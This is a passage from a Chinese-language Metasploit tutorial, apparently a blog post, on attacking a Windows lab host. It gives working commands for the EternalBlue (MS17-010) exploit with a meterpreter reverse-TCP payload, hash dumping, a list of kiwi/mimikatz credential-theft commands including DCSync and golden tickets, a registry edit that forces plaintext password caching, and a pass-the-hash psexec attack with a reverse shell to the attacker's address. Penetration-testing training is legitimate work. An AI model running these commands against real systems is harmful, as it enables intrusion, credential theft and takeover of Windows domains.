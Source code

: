 ```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS 192.168.200.130
exploit

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/1a2689a10433c6ffeb1969bd299fa3f0.jpeg"/><br/> 获取meterpreter

#### 抓取目标主机密码

使用`hashdump`抓取密码<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/aa7f6c0891f51259b0ec336b89bc01dc.jpeg"/><br/> 得到目标主机hash值<br/> 注：mimikatz在新版本msf中已经取消，mimikatz模块已经合并为kiwi模块<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a6237b4dbeeaa524a0c08693bba9e7ba.jpeg"/><br/> 常用命令

```
load kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

```

creds_all命令直接获取密码<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dc8c994f83e557fcfa3b2c165db1db8b.jpeg"/><br/> 由于mimikatz只是集成在了kiwi模块中，如果想使用mimikatz命令也是可以kiwi_cmd直接实现的，kiwi_cmd 模块可以让我们使用mimikatz的全部功能。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7744910bb91a5a650653323d71676c31.jpeg"/><br/> 在Windows2012系统及以上的系统，默认在内存缓存中禁止保存明文密码的。攻击者可以通过修改注册<br/> 表的方式抓取明文，需要用户重新登录后才能成功抓取

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v
UseLogonCredential /t REG_DWORD /d 1 /f

```

#### psexec

MSF中也是有psexec模块的，抓取到hash密码后

```
use exploit/windows/smb/psexec
set SMBUser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:ae74afe74b7c6c328c901bf54a704396
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.200.128
set lport 6666
set rhosts 192.168.200.130
exploit

```
